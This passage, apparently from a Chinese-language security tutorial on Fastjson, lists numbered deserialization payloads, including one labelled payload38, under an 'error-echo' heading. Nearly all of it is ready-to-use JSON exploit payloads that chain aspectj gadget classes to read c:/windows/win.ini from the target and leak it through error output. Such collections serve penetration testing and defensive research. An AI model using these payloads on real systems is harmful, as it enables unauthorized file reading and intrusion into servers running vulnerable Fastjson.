 ```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"},"password":"admin"}]
```

[![](assets/1706254407-45860c850bdd443bc6101643e8fa6f67.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020204958021.png)

#### 4.1.1.2 报错回显法

`payload38`：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"java.lang.Character"{"c":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"}},"password":"admin"}]
```
